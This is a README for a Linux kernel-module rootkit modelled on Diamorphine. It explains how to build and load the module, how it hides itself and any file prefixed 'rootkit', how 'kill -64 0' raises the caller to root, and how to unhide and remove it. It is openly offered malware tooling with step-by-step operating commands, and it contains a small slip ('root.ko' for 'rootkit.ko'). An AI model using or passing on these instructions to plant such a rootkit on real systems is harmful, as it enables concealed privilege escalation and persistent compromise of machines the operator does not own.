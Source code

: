 # LKM_Rootkit

My attempt at a Kernel Module rootkit. This is heavy influenced by the Diamorphine (https://github.com/m0nad/Diamorphine) rootkit. Listens to signals and will perform actions based on signal number.  
Rootkit will hide any file that matches the 'magic_prefix' -- currently 'rootkit'. This can be toggled with the '63' signals.
```
kill -63 0
```
Rootkit will also change current user contest to uid=0, euid=0, suid=0, and fsuid=0 on the 64 signals
```
kill -64 0
```


#### Features


#### Requirements:
During my testing on an Ubuntu 22-04, I needed to install gcc12  
```
sudo apt update
sudo apt install gcc-12
```

#### Running it
You should then be able to run 'make' inside of the directory
```
make
```

This should make a lot of files, with the most important being 'rootkit.ko'. This is your kernel module. You can insert this by using the insmod command.  
```
sudo insmod root.ko
```

It will automatically hide itself and all files that begin with the name 'rootkit' so you won't be able to simply run a lsmod command. You can send a '63' signal using the kill command to make it unhide everything. It should appear at the top of the kernel module listing as it was recently added.
```
lsmod
kill -63 0
lsmod
```


#### Removing it
You can then remove the module by using the rmmod command. You will need to first unhide it or the system won't be able to see it to remove it.
```
kill -63 0 #if you cannot see it in the lsmod
sudo rmmod rootkit
```

If you make any changes to the code, remember to make clean or you may run into wonky issues
```
make clean
make
```
